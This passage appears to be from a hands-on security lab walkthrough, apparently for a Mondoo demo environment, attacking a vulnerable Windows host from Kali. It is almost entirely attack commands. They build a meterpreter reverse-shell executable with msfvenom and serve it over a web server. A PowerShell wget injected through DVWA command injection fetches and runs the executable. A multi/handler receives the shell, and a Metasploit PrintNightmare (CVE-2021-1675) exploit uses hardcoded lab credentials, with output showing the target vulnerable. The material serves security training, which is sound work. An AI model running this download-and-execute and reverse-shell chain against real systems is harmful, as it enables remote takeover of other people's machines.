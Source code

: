 - check the rights of the mondoo user

```cmd
|net user mondoo
```

- create a meterpreter reverse payload on your kali

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<kali-privat-ip-address> LPORT=4242 -f exe > met.exe
```

- install and start a web server on your kali

```
sudo gem install webrick
ruby -run -ehttpd . -p8001
```

- download the shell code via DVWA command injection

```powershell
|powershell -c wget "http://<kali-privat-ip-address>:8001/met.exe" -outfile "C:\windows\temp\met.exe"
```

- login via another console to your Kali machine

```bash
ssh kali@<kali-public-ip-address>
```

- start the metasploit multi handler to receive the connection from `met.exe`

```bash
msfconsole -q -x 'use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set lhost 0.0.0.0; set lport 4242;run'
```

- execute the meterpreter shell

```powershell
|powershell -c C:\windows\temp\met.exe
```

## Exploit printnightmare

- start metasploit framework on the kali vm

```bash
msfconsole
```

- configure metasploit framework to exploit printnightmare vulnerability

```bash
msf6 > use exploit/windows/dcerpc/cve_2021_1675_printnightmare
msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set RHOSTS <windows-privat-ip-address>
msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set SMBUSER mondoo
msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set SMBPASS mondoo.com
msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set payload windows/x64/shell_reverse_tcp
msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > run

msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > run

[*] Started reverse TCP handler on 10.0.4.196:4444 
[*] 10.0.4.131:445 - Running automatic check ("set AutoCheck false" to disable)
[*] 10.0.4.131:445 - Target environment: Windows v10.0.14393 (x64)
[*] 10.0.4.131:445 - Enumerating the installed printer drivers...
[*] 10.0.4.131:445 - Retrieving the path of the printer driver directory...
[+] 10.0.4.131:445 - The target is vulnerable. Received ERROR_BAD_NET_NAME, implying the target is vulnerable.
```